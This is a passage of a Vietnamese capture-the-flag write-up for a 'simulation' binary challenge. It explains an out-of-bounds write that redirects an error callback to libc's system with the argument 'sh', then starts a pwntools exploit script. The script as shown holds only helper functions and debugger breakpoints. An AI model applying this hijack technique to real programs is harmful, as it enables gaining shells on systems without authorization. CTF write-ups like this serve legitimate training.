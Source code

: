   ```

- Do đó ta sẽ tạo thêm một `cmd` với `fun` là một trong 3 cái trên đồng thời ta sẽ set `nb_cmd=2` để nó sẽ thực hiện 2 `cmd` là `ADD/SUB` và `DIVIDE/LOAD/STORE`. Ngoài ra ta sẽ set thêm `error_handler` thành`sh` là chuỗi đầu vào cho `error_callback('sh')`.

- Sau khi set xong thì làm sao để đưa `mem` vào `cur_node`, tất nhiên là lỗi `OOB` ở trên rồi, ta sẽ set `ip=256` thì nó sẽ trỏ đến `mem` lúc này nó sẽ thực hiện tính toán trên `mem`:

- `ADD`: `arg[0] = re[arg->val]` để lấy libc got, `arg[1] = arg->val` lấy offset và `arg[2] = mem[arg[2]->val] = re[arg[0]->val] + arg[1]->val]` để gán vào `error_callback`. Sau đó gọi `STORE` để gọi `error_callback` tức `system`.

### II. Script

- ```python
  #!/usr/bin/python3
  
  from pwn import *
  
  exe = ELF('simulation_patched', checksec=False)
  libc = ELF('libc.so.6', checksec=False)
  context.binary = exe
  
  info = lambda msg: log.info(msg)
  sla = lambda msg, data: r.sendlineafter(msg, data)
  sa = lambda msg, data: r.sendafter(msg, data)
  sl = lambda data: r.sendline(data)
  s = lambda data: r.send(data)
  sln = lambda msg, num: sla(msg, str(num).encode())
  sn = lambda msg, num: sa(msg, str(num).encode())
  
  def new_note(idx, n_cmd, next_note, cmd = b'', yn = b'', handler = -1):
      sln(b'> ', 1)
      sln(b'Index: ', idx)
      sln(b'command: ', n_cmd)
      sln(b'node: ', next_note)
      if cmd != b'':
          sa(b'list: ', cmd)
      if yn != b'' and handler != -1:
          sa(b'(y/n): ', yn)
          sln(b'handler: ', handler)
      
  def run(id):
      sln(b'> ', 2)
      sln(b'start? ', id)
  
  def GDB():
      gdb.attach(r, gdbscript='''
          b*main+52
          # # b*new_node+844
          # b*simulate+694
          # b*simulate+1486
          # b*simulate+1587
          # b*store_val_safe+103
          # b*get_val_safe+25
          b*main+212
          # b*run+334
          b*run+117
          ni
          c
          c 8
      ''')
  
  ```